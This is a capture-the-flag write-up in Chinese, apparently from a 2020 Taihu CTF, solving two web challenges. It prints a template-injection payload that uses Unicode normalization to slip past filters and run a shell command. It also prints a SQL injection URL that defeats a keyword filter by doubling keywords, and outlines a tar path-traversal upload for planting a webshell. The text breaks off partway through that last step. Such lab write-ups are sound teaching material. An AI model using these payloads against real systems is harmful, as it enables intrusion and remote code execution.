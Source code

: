 
### easy\_web

unicode规范化参考网址 [https://www.compart.com/en/unicode/](https://www.compart.com/en/unicode/)
通过unicode字符规范化来绕过字符检查

`︷︷ config.__class__.__init__.__globals__[＇os＇].popen(＇cat /flag＇).read() ︸︸`

### cross the filesystem field

1.SQL注入，验证waf的方法，输入1加各种关键字可以发现1select、1union可以通过，但是带入'、''均没有返回猜测语法报错。得知这两个参数可以双写绕过。绕过waf后，获取源码，发现存在隐藏参数submit1

```
view-source:http://127.0.0.1/?id=1%20uniunionon%20seselectlect%20load_file(0x2f7661722f7777772f68746d6c2f696e6465782e706870)
```

2.审计代码知道需要上传tar包，并且需要生成一个可以路径穿越tar包，大致才可如下。然后在upload目录生成一个webshell即可getshell。

![image-20200623235656239](2020-Taihuctf-writeup/image-20200623235656239.png)

3.生成方法

首先准备一个1.php，tar cf 1.tar 1.php
